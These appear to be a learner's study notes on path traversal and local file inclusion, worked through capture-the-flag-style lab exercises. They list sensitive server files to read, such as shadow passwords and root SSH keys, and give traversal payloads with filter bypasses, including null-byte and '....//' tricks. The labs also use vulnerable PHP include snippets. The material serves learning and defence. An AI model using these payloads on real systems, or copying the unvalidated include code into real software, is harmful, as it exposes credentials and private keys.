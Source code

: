 ### Table of contents
- [[#Intro]]
- [[#Path Traversal]]
- [[#LFI 1]]
- [[#LFI 2]]

___
### Intro
[[#Table of contents|Back to the top]]

![[Pasted image 20250418150136.png]]

Main issue: input validation -- sanitization, validation

File inclusion can be used to exfiltrate sensitive data or to gain RCE (Remote Command Execution) (if user can access and also write files)

___
### Path Traversal
[[#Table of contents|Back to the top]]

AKA **Directory Traversal** AKA **dot-dot-slash**: attacker can read OS resources (local files on server running app), done by manipulating URL

Path traversal vulnerability: user's input directly passed to function such as ***file_get_contents*** in PHP. Input should be validated and filtered 1st

Common paths to test traversal
- `/etc/issue`: message/ system identification before login prompt
- `/etc/profile`: system-wide 
- `/proc/version`: Linux kernel version
- `/etc/passwd`: all registered users that have access to system
- `/etc/shadow`: info about system's users passwords
- `/root/.bash_history`: root's history commands
- `/var/log/dmessage`: global system messages
- `/var/mail/root`: root's emails
- `/root/.ssh/id_rsa`: SSH keys for root or other user
- `/var/log/apache2/access.log`: accessed requests for Apache web server
- `C:\boot.ini`: boot options for computers with BIOS firmware

___
### LFI #1
[[#Table of contents|Back to the top]]

*Local File Inclusion*

PHP `include`, `require`, `include_once`, `require_once` often contribute to vulnerable web applications

LFI also occurs in ASP, JSP, Node.js

#### Lab #1

1. Web app provides 2 languages, lets user choose (EN/AR)
```php
<?PHP 
	include($_GET["lang"]);
?>
```
$\rightarrow$ `/index.php?lang=EN.php` display English
$\rightarrow$ `/index.php?lang=AR.php` display Arabic

If no input validation $\rightarrow$ possible to access any file on server
$\Rightarrow$ Payload: `/get.php?file=/etc/passwd`

#### Lab #2

2. Developer specified directory
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```
*Include function calls PHP pages in languages directory only via lang parameters*

Without input validation, attacker can manipulate URL, replacing `lang` by `etc/passwd` for instance

When trying `/etc/passwd`, error messages indicates `var/www/html/lab2.php` $\Rightarrow$ 4 `../` to go to the root
$\Rightarrow$ Payload: `http://webapp.thm/index.php?lang=../../../../etc/passwd`

___
### LFI #2
[[#Table of contents|Back to the top]]

LFI #1 was white box: access to source code

LFI #2 is black box: no access to source code $\rightarrow$ error messages are important

#### Lab #3

Error message:
```php
Warning: include(includes/etc/passwd.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab3.php on line 26
```
$\rightarrow$ include function looks like `include(languages/etc/passwd.php)` $\Rightarrow$ it appends `etc/passwd` with .php
$\Rightarrow$ use NULL BYTE `%00` to ignore the appending of .php
$\Rightarrow$ Full payload: `../../../../etc/passwd%00`
 
**NB**: doesn't work with PHP **5.3.4** and above

#### Lab #4

Error message:
```php
You are not allowed to see source files!
```

Adding `/.` at the end of the path can bypass filters

$\Rightarrow$ Payload: `../../../../etc/passwd/.`

#### Lab #5

Try `../../../../etc/passwd`

Error message: 
```php
Warning: include(includes/etc/passwd) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab5.php on line 28
```
$\rightarrow$ include function shows no `../` $\rightarrow$ PHP filter deletes `../`
$\Rightarrow$ Payload: `....//....//....//....//etc/passwd`
![[Pasted image 20250424105620.png]]

**Question**: could you make a recursive PHP filter in order to defend against this payload or longer iterations of this payload?

#### Lab #6

Error message:
```php
Access Denied! Allowed files at THM-profile folder only! 
```

